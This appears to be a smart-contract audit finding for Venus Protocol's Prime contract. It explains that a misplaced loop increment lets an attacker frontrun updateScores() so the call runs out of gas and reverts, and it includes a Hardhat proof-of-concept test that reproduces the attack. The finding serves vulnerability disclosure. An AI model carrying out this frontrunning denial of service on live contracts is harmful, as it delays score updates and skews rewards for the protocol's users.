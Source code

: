 <https://github.com/code-423n4/2023-09-venus/blob/main/contracts/Tokens/Prime/Prime.sol#L200-L230> 

<https://github.com/code-423n4/2023-09-venus/blob/main/tests/hardhat/Prime/Prime.ts#L294-L301>

`updateScores()` is meant to be called to update the scores of many users after reward alpha is changed or reward multipliers are changed. An attacker can cause calls to `Prime.updateScores()` to out-of-gas revert, delaying score updates. Rewards will be distributed incorrectly until scores are properly updated.

### Proof of Concept

`updateScores()` will run out of gas and revert if any of the `users` passed in the argument array have already been updated. This is due to the `continue` statement and the incrementing location of `i`:

        function updateScores(address[] memory users) external {
            if (pendingScoreUpdates == 0) revert NoScoreUpdatesRequired();
            if (nextScoreUpdateRoundId == 0) revert NoScoreUpdatesRequired();

            for (uint256 i = 0; i < users.length; ) {
                address user = users[i];

                if (!tokens[user].exists) revert UserHasNoPrimeToken();
                if (isScoreUpdated[nextScoreUpdateRoundId][user]) continue;
                ...
                unchecked {
                    i++;
                }

                emit UserScoreUpdated(user);
            }
        }

An attacker can frontrun calls to `updateScores()` with a call to `updateScores()`, passing in a 1-member array of one of the addresses in the frontran call's argument array. The frontran call will run out of gas and revert, and only one of the users intended to be updated will actually be updated.

### Test

Paste and run the below test in the 'mint and burn' scenario in Prime.ts (line 302)

        it("dos_updateScores", async () => {
          //setup 3 users
          await prime.issue(true, [user1.getAddress(), user2.getAddress(), user3.getAddress()]);
          await xvs.connect(user1).approve(xvsVault.address, bigNumber18.mul(1000));
          await xvsVault.connect(user1).deposit(xvs.address, 0, bigNumber18.mul(1000));
          await xvs.connect(user2).approve(xvsVault.address, bigNumber18.mul(1000));
          await xvsVault.connect(user2).deposit(xvs.address, 0, bigNumber18.mul(1000));
          await xvs.connect(user3).approve(xvsVault.address, bigNumber18.mul(1000));
          await xvsVault.connect(user3).deposit(xvs.address, 0, bigNumber18.mul(1000));
          //change alpha
          await prime.updateAlpha(1, 5);
          //user 1 frontruns updateScores([many users]) with updateScores([solely user3])
          await prime.connect(user1).updateScores([user3.getAddress()])
          //frontran call should revert
          await expect(prime.updateScores([user1.getAddress(), user2.getAddress(), user3.getAddress()])).to.be.reverted;
        });
